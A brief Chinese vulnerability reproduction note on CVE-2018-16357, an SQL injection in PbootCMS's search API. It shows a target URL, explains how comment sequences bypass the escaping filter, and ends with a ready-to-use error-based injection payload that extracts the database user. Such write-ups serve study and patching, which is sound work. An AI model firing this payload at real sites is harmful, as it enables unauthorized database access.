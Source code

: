 （CVE-2018-16357）PbootCMS sql注入漏洞
======================================

一、漏洞简介
------------

PbootCMS是一款使用PHP语言开发的开源企业建站内容管理系统（CMS）。
PbootCMS中存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

二、漏洞影响
------------

三、复现过程
------------

    http://www.0-sec.org/api.php/Cms/search?#acode=1&num=1&order=1

参数\$field是我们可以控制的，去检查函数过滤器

![](./.resource/(CVE-2018-16357)PbootCMSsql注入漏洞/media/rId24.png)

使用函数trim和escape字符串避免sql注入

![](./.resource/(CVE-2018-16357)PbootCMSsql注入漏洞/media/rId25.png)

添加a\'会导致mysql语法错误，因此函数escape\\u字符串无效

![](./.resource/(CVE-2018-16357)PbootCMSsql注入漏洞/media/rId26.png)

使用/\*\*/绕过

### payload:

    field=1)/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/user()),0x7e),1)#&keyword=title&scode=1

